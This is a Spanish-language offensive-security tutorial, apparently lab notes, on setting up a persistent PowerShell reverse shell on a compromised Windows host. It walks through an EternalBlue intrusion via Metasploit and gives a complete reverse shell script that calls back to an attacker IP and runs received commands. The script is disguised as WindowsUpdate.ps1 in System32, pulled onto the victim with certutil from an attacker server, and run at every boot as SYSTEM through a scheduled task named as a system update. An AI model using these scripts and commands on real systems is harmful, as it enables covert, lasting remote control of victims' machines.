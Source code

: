 ```yaml
---
icon: window-flip
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shell Persistente PowerShell

### <mark style="color:purple;">Intrusion a la maquina (Ejemplo)</mark>

Primero tendremos que comprometer una maquina `windows`, por ejemplo pongamos que es vulnerable al `Eternal Blue`, abriremos `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutamos los siguientes comandos para la intrusion:

```shell
use windows/smb/ms17_010_eternalblue
set RHOST <IP_VICTIM>
exploit
```

Una vez que estemos dentro, programaremos los scripts en nuestra maquina atacante...

### <mark style="color:purple;">Scripts para persistencia mediante PowerShell</mark>

Codigo `WindowsUpdate.ps1` para hacernos la `reverse shell` desde windows:

```powershell
while ($true) {
    try {
        # Intenta conectarse al puerto especificado
        $client = New-Object System.Net.Sockets.TcpClient("<IP>", <PORT>)
        $stream = $client.GetStream()
        $writer = New-Object System.IO.StreamWriter($stream)
        $writer.AutoFlush = $true
        $reader = New-Object System.IO.StreamReader($stream)

        # Escribe una línea indicando la conexión
        $writer.WriteLine("Conexión establecida desde $($env:COMPUTERNAME)")

        # Bucle de comandos
        while ($true) {
            # Espera un comando del cliente
            $writer.Write("shell> ")  # Indica que está listo para recibir un comando
            $cmd = $reader.ReadLine()
            
            if ($cmd -eq 'exit') {
                $writer.WriteLine("Cerrando conexión...")
                break
            }

            try {
                # Ejecuta el comando y captura la salida
                $output = Invoke-Expression $cmd 2>&1

                # Convierte la salida a cadena y envía de vuelta al cliente
                if ($output -is [System.Array]) {
                    $output = $output -join "`n"  # Unir elementos del array en líneas
                }
                
                # Envía la salida de vuelta al cliente
                if ($output) {
                    $writer.WriteLine($output)
                } else {
                    $writer.WriteLine("Comando ejecutado correctamente.")
                }
            }
            catch {
                # Manejo de errores
                $writer.WriteLine("Error: $_")
            }
        }

        # Cierra la conexión
        $client.Close()
    }
    catch {
        # Espera 5 segundos antes de volver a intentar si falla
        Start-Sleep -Seconds 5
    }
}
```

Cambiar `<IP>` y `<PORT>` por las necesidades de cada uno.

Despues crear `Update.ps1` que sera el que ejecute en bucle el archivo `WindowsUpdate.ps1`:

```powershell
while ($true) {
    powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
    Start-Sleep -Seconds 5
}
```

### <mark style="color:purple;">Pasar scripts a la maquina victima mediante metasploit</mark>

Tendremos que pasar esos archivos a la maquina victima, en mi caso lo llevare a `C:\Windows\System32` para que se quede bien camuflado.

```shell
cd C:\Windows\System32\
```

Si estamos en `metasploit` con la maquina comprometida podremos subirlos de la siguiente forma:

```shell
upload WindowsUpdate.ps1
upload Update.ps1
```

Despues ejecutaremos `shell`, para obtener la `shell` de `windows`.

### <mark style="color:purple;">Pasar scripts a la maquina victima mediante terminal</mark>

Imaginemos que no estamos utilizando `metasploit` lo podremos hacer de esta otra forma...

Primero nos abriremos un servidor de `python3`.

```shell
python3 -m http.server
```

En la maquina victima que habremos comprometido de `windows` con una `shell` normal, pondremos los sigueintes comandos:

```shell
cd C:\Windows\System32\
certutil.exe -f -urlcache -split http://<IP>:8000/WindowsUpdate.ps1 WindowsUpdate.ps1
certutil.exe -f -urlcache -split http://<IP>:8000/Update.ps1 Update.ps1
```

Asi nos pasaremos los 2 archivos a la maquina victima.

### <mark style="color:purple;">Programar persistencia en la maquina victima</mark>

Despues en la maquina `windows` que tenemos comprometida, ejecutaremos el siguiente comando:

```shell
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
```

Info:

```
schtasks /create /tn "Actualización de Sistema" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\Update.ps1" /sc onstart /ru "SYSTEM" /rl highest /f
Correcto: se cre correctamente la tarea programada "Actualización de Sistema".
```

Con esto ya habriamos creado la tarea programada en `windows`, lo comprobaremos de la siguiente forma:

```shell
schtasks /query /tn "Actualización de Sistema"
```

Info:

```
Carpeta: \
Nombre de tarea                          Hora prxima ejecucin Estado         
======================================== ====================== ===============
Actualización de Sistema                 No disponible          Listo          
```

Despues probaremos a estar a la escucha en nuestra maquina atacante:

```shell
nc -lvnp <PORT>
```

Y en la maquina victima ejecutaremos el siguiente codigo para saber que todo se carga correctamente:

```shell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\WindowsUpdate.ps1
```

Una vez comprobado, ya podremos reiniciar el equipo, hacer lo que queramos, hacerle `Ctrl+C` a la `shell` y volver a estar a la escucha para otra vez recuperarla, ya tendremos `persistencia`.

### <mark style="color:purple;">Escucha mediante terminal</mark>

Ahora podremos obtener la `shell` todas las veces que queramos por que se estara ejecutando cada 5 segundos, por lo que solo tendremos que poner el siguiente comando:

```shell
nc -lvnp <PORT>
```

Y todas las veces que pongamos eso nos hara una `shell` cada 5 segundos, aunque reinicie el sistema y vuelva a ejecutarse `windows` podremos seguir obteniendola.

Info:

```
listening on [any] 7777 ...
connect to [192.168.5.147] from (UNKNOWN) [192.168.5.141] 49193
ConexiÃ³n establecida desde VULN-SMBV2
shell> whoami
nt authority\system
```

### <mark style="color:purple;">Escucha mediante metasploit</mark>

Tambien lo podemos hacer mediante `metasploit`.

```shell
msfconsole -q
```

Una vez dentro ejecutaremos los siguiente comandos:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
run
```

Y con esto obtendremos una `shell` mediante `metasploit`.

### <mark style="color:purple;">Eliminar la tarea persistente y los scripts</mark>

Pondremos los siguientes comandos dentro de la maquina `windows`:

```shell
del WindowsUpdate.ps1
del Update.ps1
schtasks /delete /tn "Actualización de Sistema" /f
```

Y con esto ya habriamos dejado limpio el sistema.
